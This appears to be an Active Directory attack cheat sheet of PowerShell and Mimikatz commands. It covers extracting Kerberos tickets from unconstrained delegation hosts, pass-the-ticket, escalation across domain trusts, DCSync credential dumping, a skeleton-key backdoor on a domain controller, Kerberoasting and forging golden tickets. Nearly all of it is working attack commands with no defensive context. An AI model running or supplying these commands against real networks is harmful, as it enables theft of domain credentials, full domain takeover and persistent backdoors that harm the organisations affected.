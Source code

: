 ```
Get-NetComputer -UnConstrained | select Name
Invoke-Command -ScriptBlock {Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::tickets /export"'} -Session $sess
Invoke-Command -ScriptBlock{Invoke-Mimikatz -Command '"kerberos:: ptt [...]"'} -Session $sess
Invoke-Command -Scriptblock{ls \\maquina.local\C$} -session $sess
```

**Privilege Across Trusts**

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ab.cd.local /sid:<SID of ab.cd.local> /krbtgt:hash do krbtgt /sids:<SID of cd.local> /ptt"'
```

**DC Sync**

```
Invoke-Mimikatz -Command "privilege::debug" "token::elevate" "lsadump::dcsync /domain:ab.cd.local /user:Administrator" "exit"
```

**Skeleton Key**

 - This commands on the DC box, after owned it

```
./mimkatz.exe
privilege::debug
token::elevate
misc::skeleton
```

**Kerberoast**

```
Get-NetUser -SPN
Request-SPN Ticket SPN/ab.cd.local
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

then

```
kirbi2john.py
```

**Golden Ticket**

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ab.cd.local /sid:<SID of ab.cd.local> /krbtgt:xxxxxxx /sids:<SID of cd.local> /ptt"'
```

then

```
./mimikatz.exe
kerberos::golden /domain:xxx.local /sid:S-1-5-21-3965405831... /rc4:c6d349.... /user:newAdmin /id:500 /ptt
```
